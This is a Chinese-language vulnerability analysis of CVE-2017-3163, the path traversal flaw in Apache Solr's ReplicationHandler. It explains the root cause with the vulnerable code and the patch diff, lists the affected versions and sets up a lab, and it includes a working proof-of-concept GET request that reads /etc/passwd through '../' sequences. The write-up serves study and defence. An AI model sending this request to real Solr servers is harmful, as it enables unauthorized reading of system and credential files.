


# CVE-2017-3163 CWE-22 Solr 路径遍历

## 漏洞背景

**Solr ：**一个高性能、可扩展的开源企业级搜索引擎平台，基于 Apache Lucene 构建。它采用倒排索引技术，能够快速高效地对海量数据进行全文检索，支持多种数据格式（如 JSON、XML 等）的导入和索引。Solr 提供强大的查询功能，包括全文检索、过滤查询、排序、分组等，可灵活满足不同的检索需求。还具备分布式搜索和索引复制功能，可实现高可用性和负载均衡，广泛应用于电商搜索、内容管理、数据分析等众多领域，助力企业提升搜索体验和数据处理能力。

## 漏洞原理

使用索引复制功能时，Apache Solr 节点可以使用接受文件名的 HTTP API 从主/领导节点中提取索引文件。 但是，5.5.4 之前的 Solr 和 6.4.1 之前的 6.x 不会验证文件名，因此可以设计一个恶意的路径遍历的特殊请求，从而使Solr服务器进程实现任意文件读取漏洞。

## 漏洞定位

分析 Solr 6.0.0 源码：

在 solr/solr/core/src/java/org/apache/solr/handler/ReplicationHandler.java 文件，第 1364 行DirectoryFileStream 函数用于在 Apache Solr 中处理文件流的相关功能，尤其是用于索引复制和相关的文件操作。它的主要作用是处理与文件相关的操作，如读取、写入或复制 Solr 的索引文件。

其中第 1368 行直接从请求参数中获取文件名（`params.get(FILE)`、`params.get(CONF_FILE_SHORT)`、`params.get(TLOG_FILE)`），并将其用于文件操作。没有任何验证来检查这些文件名是否包含恶意字符或路径遍历尝试（如 `..`）。

```java
// ReplicationHandler.java 文件，第 1364 行 
public DirectoryFileStream(SolrParams solrParams) {
      params = solrParams;
      delPolicy = core.getDeletionPolicy();

     // ********** 1368 行 **********
      fileName = params.get(FILE);
      cfileName = params.get(CONF_FILE_SHORT);
      tlogFileName = params.get(TLOG_FILE);
      sOffset = params.get(OFFSET);
      sLen = params.get(LEN);
      compress = params.get(COMPRESSION);
      useChecksum = params.getBool(CHECKSUM, false);
      indexGen = params.getLong(GENERATION, null);
      if (useChecksum) {
        checksum = new Adler32();
      }

      double maxWriteMBPerSec = params.getDouble(MAX_WRITE_PER_SECOND, Double.MAX_VALUE);
      rateLimiter = new RateLimiter.SimpleRateLimiter(maxWriteMBPerSec);
    }
```

## 漏洞修复


将5.x线升级到 Solr  5.5.4 或以后,或6.x线至 Solr  6.4.1 或后来。 如果更新延迟,则限制ReplexHandler在网络层认证,信任客户端,并屏蔽公众访问。

补丁添加 `validateFilenameOrError` 以否认正道。`..`和绝对路径。 所有复制 在打开文件前验证 Handler 文件名参数 。

```diff
diff --git a/solr/core/src/java/org/apache/solr/handler/ReplicationHandler.java b/solr/core/src/java/org/apache/solr/handler/ReplicationHandler.java
index b875144013a..cdbadc4eeca 100644
--- a/solr/core/src/java/org/apache/solr/handler/ReplicationHandler.java
+++ b/solr/core/src/java/org/apache/solr/handler/ReplicationHandler.java
@@ -29,6 +29,8 @@
 import java.nio.channels.FileChannel;
 import java.nio.charset.StandardCharsets;
 import java.nio.file.NoSuchFileException;
+import java.nio.file.Path;
+import java.nio.file.Paths;
 import java.util.ArrayList;
 import java.util.Arrays;
 import java.util.Collection;
@@ -1418,9 +1420,10 @@ public DirectoryFileStream(SolrParams solrParams) {
       params = solrParams;
       delPolicy = core.getDeletionPolicy();
 
-      fileName = params.get(FILE);
-      cfileName = params.get(CONF_FILE_SHORT);
-      tlogFileName = params.get(TLOG_FILE);
+      fileName = validateFilenameOrError(params.get(FILE));
+      cfileName = validateFilenameOrError(params.get(CONF_FILE_SHORT));
+      tlogFileName = validateFilenameOrError(params.get(TLOG_FILE));
+      
       sOffset = params.get(OFFSET);
       sLen = params.get(LEN);
       compress = params.get(COMPRESSION);
@@ -1434,6 +1437,22 @@ public DirectoryFileStream(SolrParams solrParams) {
       rateLimiter = new RateLimiter.SimpleRateLimiter(maxWriteMBPerSec);
     }
 
+    // Throw exception on directory traversal attempts 
+    protected String validateFilenameOrError(String filename) {
+      if (filename != null) {
+        Path filePath = Paths.get(filename);
+        filePath.forEach(subpath -> {
+          if ("..".equals(subpath.toString())) {
+            throw new SolrException(ErrorCode.FORBIDDEN, "File name cannot contain ..");
+          }
+        });
+        if (filePath.isAbsolute()) {
+          throw new SolrException(ErrorCode.FORBIDDEN, "File name must be relative");
+        }
+        return filename;
+      } else return null;
+    }
+
     protected void initWrite() throws IOException {
       if (sOffset != null) offset = Long.parseLong(sOffset);
       if (sLen != null) len = Integer.parseInt(sLen);
```

## 影响范围


- Apache Solr 1.4.0 至 5.5.3
- Apache Solr 6.0.0 至 6.4.0

## 环境搭建

启动 Docker 环境，Solr 版本为 6.0.0，存在名为 collection1 的核心

```txt
NIST:NVD   Base Score:7.5 HIGH  Vector:  CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
```

```txt
cpe:2.3:a:apache:solr:6.0.0:*:*:*:*:*:*:*
```



## 漏洞复现

使用 BurpSuite 工具，使用 collection1 核心，向 replication API 发送 GET 请求包，可以看到成功返回了 /etc/passwd 的内容

```http
GET /solr/collection1/replication?command=filecontent&file=../../../../../../../../../../../../../etc/passwd&wt=filestream&generation=1 HTTP/1.1

Host: 127.0.0.1:8983

Content-Length: 2
```




## PoC分析


请求把路径遍历序列作为复制处理器的文件名提交。在存在漏洞的 Solr Core 上，处理器会把该值解析到索引目录之外，并在响应中返回 `/etc/passwd`。返回的文件内容表明，攻击者能够以 Solr 进程的操作系统权限读取任意文件。

## 参考链接


[NVD - CVE-2017-3163](https://nvd.nist.gov/vuln/detail/CVE-2017-3163)

[[SOLR-10031\] ReplicationHandler path traversal vulnerability - ASF JIRA](https://issues.apache.org/jira/browse/SOLR-10031)

[SOLR-10031: Validation of filename params in ReplicationHandler ·  apache/solr@6f598d2](https://github.com/apache/solr/commit/6f598d24692a89da9b5b671be6cf4b947aa39266)

A Brief Analysis of the [Apache Solr ReplicationHandler Vulnerability (CVE-2017-3163 & CVE-2017-3164) - Prophet Community](https://xz.aliyun.com/news/7969)
